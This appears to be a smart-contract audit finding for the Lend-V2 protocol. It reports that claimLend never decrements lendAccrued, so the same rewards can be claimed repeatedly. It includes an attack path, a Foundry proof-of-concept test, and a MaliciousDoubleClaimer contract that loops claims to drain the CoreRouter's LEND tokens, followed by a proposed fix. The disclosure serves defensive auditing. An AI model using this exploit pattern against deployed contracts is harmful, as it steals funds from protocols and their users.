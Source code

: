 Fast Caramel Dove

High

# Unrestricted Multiple Claims of LEND Rewards Due to Missing Claim Tracking

### Summary

Missing claim tracking mechanism in `claimLend` function will cause a complete drainage of LEND tokens for the protocol as malicious users will repeatedly claim the same accrued rewards without the `lendAccrued` balance being decremented

### Root Cause

https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L399-L404

the grantLendInternal function transfers LEND tokens but never updates the lendAccrued mapping to reflect claimed amounts

### Internal Pre-conditions

1. User needs to have supplied or borrowed tokens to set `lendAccrued[user]` to be at least greater than 0
2. CoreRouter contract needs to have LEND token balance to be at least equal to the user's accrued amount
3. LendStorage contract needs to be authorized to update state variables


### External Pre-conditions

None - this vulnerability can be exploited under normal protocol operation

### Attack Path


1. **Attacker supplies or borrows tokens in any lToken market to start accruing LEND rewards**
2. **Time passes and LEND rewards accrue based on the protocol's distribution rate**
3. **The `distributeSupplierLend` or `distributeBorrowerLend` functions are called (either directly or through other operations) which adds rewards to `lendAccrued[attacker]`**
4. **Attacker deploys a malicious contract that calls `claimLend` multiple times in a loop**
5. **Attacker calls the malicious contract's exploit function which:**
   - Calls `claimLend` with the attacker's address in the `holders` array
   - Each call transfers the full `lendAccrued` amount to the attacker
   - The `lendAccrued` value remains unchanged after each transfer because `grantLendInternal` only transfers tokens
   - Repeats until CoreRouter's LEND balance is depleted
6. **Attacker withdraws all stolen LEND tokens**


### Impact

**The protocol will suffer a complete loss of all LEND tokens held in the CoreRouter contract. The attacker will gain all LEND tokens meant for legitimate users' unclaimed rewards.**

For example, if CoreRouter holds 100,000 LEND tokens and an attacker has 1,000 LEND accrued:
- The attacker can claim 100 times in one transaction
- The protocol loses 100,000 LEND tokens
- Legitimate users cannot claim their rewards

### PoC

```solidity

function test_issueIn_claimLend() public {
    // Setup: User supplies tokens to accrue LEND rewards
    uint256 supplyAmount = 1000e18;
    (, address lToken) = _supply(supplyAmount, user1);
    
    // Advance time to accrue LEND rewards
    vm.warp(block.timestamp + 7 days);
    vm.roll(block.number + 7000);
    
    // Calculate user1's accrued rewards
    vm.prank(address(coreRouter));
    lendStorage.distributeSupplierLend(lToken, user1);
    
    uint256 legitimateRewards = lendStorage.lendAccrued(user1);
    address lendToken = lendtroller.getLendAddress();
    
    console2.log("=== Setup ===");
    console2.log("User1's legitimate accrued rewards:", legitimateRewards);
    
    // Ensure CoreRouter has enough LEND tokens (simulating a real scenario where multiple users have unclaimed rewards)
    vm.prank(address(lendtroller));
    IERC20(lendToken).transfer(address(coreRouter), legitimateRewards * 10);
    
    console2.log("CoreRouter LEND balance:", IERC20(lendToken).balanceOf(address(coreRouter)));
    
    // Deploy malicious contract
    vm.prank(user1);
    MaliciousDoubleClaimer malicious = new MaliciousDoubleClaimer(address(coreRouter));
    
    // Record balances before exploit
    uint256 user1BalanceBefore = IERC20(lendToken).balanceOf(user1);
    uint256 coreRouterBalanceBefore = IERC20(lendToken).balanceOf(address(coreRouter));
    
    console2.log("\n=== Executing Exploit ===");
    console2.log("Calling claimLend 5 times in a single transaction...");
    
    // Execute the exploit - claim 5 times in ONE transaction
    vm.prank(user1);
    malicious.exploitDoubleClaim(5);
    
    // Check results
    uint256 user1BalanceAfter = IERC20(lendToken).balanceOf(user1);
    uint256 coreRouterBalanceAfter = IERC20(lendToken).balanceOf(address(coreRouter));
    uint256 totalClaimed = user1BalanceAfter - user1BalanceBefore;
    
    console2.log("\n=== Exploit Results ===");
    console2.log("User1 balance before:", user1BalanceBefore);
    console2.log("User1 balance after:", user1BalanceAfter);
    console2.log("Total claimed:", totalClaimed);
    console2.log("Legitimate rewards:", legitimateRewards);
    console2.log("Times claimed:", totalClaimed / legitimateRewards);
    
    console2.log("\nCoreRouter balance before:", coreRouterBalanceBefore);
    console2.log("CoreRouter balance after:", coreRouterBalanceAfter);
    console2.log("LEND drained from CoreRouter:", coreRouterBalanceBefore - coreRouterBalanceAfter);
    
    // Verify the exploit
    assertEq(
        totalClaimed,
        legitimateRewards * 5,
        "BUG CONFIRMED: User claimed 5x their legitimate rewards in a single transaction!"
    );
    
    // Check that lendAccrued is still not reset
    assertEq(
        lendStorage.lendAccrued(user1),
        legitimateRewards,
        "BUG: lendAccrued was never reset to 0"
    );
    
    console2.log("\n=== Impact ===");
    console2.log("Exploit successful: User stole", totalClaimed - legitimateRewards, "LEND tokens");
    console2.log("This represents", ((totalClaimed - legitimateRewards) * 100) / coreRouterBalanceBefore, "% of CoreRouter's balance");
  
}

// Add this contract before the TestLendAccrual contract
contract MaliciousDoubleClaimer {
    CoreRouter public immutable coreRouter;
    address public immutable owner;
    
    constructor(address _coreRouter) {
        coreRouter = CoreRouter(payable(_coreRouter));
        owner = msg.sender;
    }
    
    // Exploit the double-claim bug by calling claimLend multiple times in one transaction
    function exploitDoubleClaim(uint256 times) external {
        require(msg.sender == owner, "Only owner");
        
        address[] memory holders = new address[](1);
        holders[0] = owner;
        
        // Call claimLend multiple times in a single transaction
        for (uint256 i = 0; i < times; i++) {
            coreRouter.claimLend(holders, new LToken[](0), false, false);
        }
    }
}
```

### Mitigation

1. Add a new mapping in LendStorage to track claimed amounts:
```solidity
mapping(address user => uint256 claimedAmount) public lendClaimed;

// Add setter function
function setLendClaimed(address user, uint256 amount) external onlyAuthorized {
    lendClaimed[user] = amount;
}
```
2. Modify claimLend in CoreRouter to only transfer unclaimed amounts:
```solidity
function claimLend(address[] memory holders, LToken[] memory lTokens, bool borrowers, bool suppliers) external {
    // ... existing distribution logic ...
    
    for (uint256 j = 0; j < holders.length;) {
        uint256 totalAccrued = lendStorage.lendAccrued(holders[j]);
        uint256 alreadyClaimed = lendStorage.lendClaimed(holders[j]);
        
        // Only claim the difference
        if (totalAccrued > alreadyClaimed) {
            uint256 claimable = totalAccrued - alreadyClaimed;
            uint256 remaining = grantLendInternal(holders[j], claimable);
            
            // Update claimed amount (claimable - remaining = actual transferred)
            uint256 actualTransferred = claimable - remaining;
            lendStorage.setLendClaimed(holders[j], alreadyClaimed + actualTransferred);
        }
        unchecked { ++j; }
    }
}
```
3. Update `grantLendInternal` to return remaining amount:
```solidity
function grantLendInternal(address user, uint256 amount) internal returns (uint256) {
    address lendAddress = LendtrollerInterfaceV2(lendtroller).getLendAddress();
    uint256 lendBalance = IERC20(lendAddress).balanceOf(address(this));

    if (amount > 0 && amount <= lendBalance) {
        IERC20(lendAddress).safeTransfer(user, amount);
        return 0; // No remaining amount
    }
    return amount > lendBalance ? amount - lendBalance : amount; // Return remaining
}
```
